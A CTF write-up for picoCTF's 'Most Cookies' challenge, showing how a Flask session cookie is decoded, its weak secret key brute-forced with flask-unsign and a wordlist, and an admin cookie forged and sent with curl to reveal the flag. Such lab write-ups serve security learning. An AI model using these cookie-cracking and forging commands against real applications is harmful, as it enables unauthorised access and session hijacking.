


# Most Cookies
Author: dch0017

## Challenge Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure!

## Accessing Site
Back to the third? installment of the cookies ctf's. This time we get information that the cookies are Flask session cookies and we get the ```server.py``` file for download as well. Opening the site we see the same site as the other challenges: </br>

</br>

## Digging Deeper
Browsing at what cookies we have, we see 3 prominent ones we've seen in these challenges. ```auth_name```, ```PHPSESSID```, and a new one ```session```. The session one must be referring to the flask session cookie the description was referring to and it looks like this:
```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Y9GB0Q.r-dg0LGm9rjcM1y6u_aSgKda7nY
```


## Flask
That output looks just like the JWT token that we had to decode in the [JAUTH challenge](https://github.com/dch0017/PicoCTF/tree/main/Web%20Exploitation/JAuth).

But when we go to [jwt.io](https://jwt.io) we don't get a clear decoding.</br>

</br>

## Search
If we go back to the main page and do a search for snickerdoole, we get a new page: </br>

</br>

But we also see that our ```session``` cookie has changed. 
```eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y9GJ_g.UuKWV-UW_KEw8deUwPbaUAHUxdY```

But before we go further with that, let's look at how we can decode these flask cookies.

## Flask Cookies 
I found two very good resources:</br>
[Hack Tricks page](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask)</br>
[Author of Flask-Unsign](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)</br>


We see that we need to get flask-unsign so that we can decode flask cookies and also use it to crack the secret key. So let's go ahead and do that:

```console
┌──(kali㉿kali)-[~]
└─$ flask-unsign --decode --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y9GJ_g.UuKWV-UW_KEw8deUwPbaUAHUxdY" 
{'very_auth': 'snickerdoodle'}
                                                                             
┌──(kali㉿kali)-[~]
└─$ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Y9GJ_g.UuKWV-UW_KEw8deUwPbaUAHUxdY" --no-literal-eval
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6272 attempts
b'fortune'

```

Awesome, we see our cookie decodes to ```{'very_auth': 'snickerdoodle'}``` and our secret key is ```fortune```. But what do we need our new payload to be?

## Server.py
I wanted to see how far I could get without using the server.py file, but I had to open it here. I saw 2 key pieces of information:</br>
1.) The secret is auto set from a list of the cookie names, so different per session.
2.) On the ```/display``` page, there is a check to see if the ```very_auth``` cookie is set to ```admin```. 

Easy let's plug that back into ```flask-unsign``` and craft a new cookie.

## Flask-Unsign
Running the following command we can generate a new flask session cookie with our secret key:
```console
┌──(kali㉿kali)-[~]
└─$ flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'fortune'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y9GROw.DfXrsC7nmkL_SYRltmdIs77xZw8
```

## Curling the Cookie
Now to just take our new flask cookie and send it to ```/display``` and we get the cookie.
```console
┌──(kali㉿kali)-[~]
└─$ curl http://mercury.picoctf.net:18835/display --cookie "session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Y9GROw.DfXrsC7nmkL_SYRltmdIs77xZw8" -s | grep -o "picoCTF{.*}" --color=none
picoCTF{pwn_4ll_th3_cook1E5_743c20eb}

```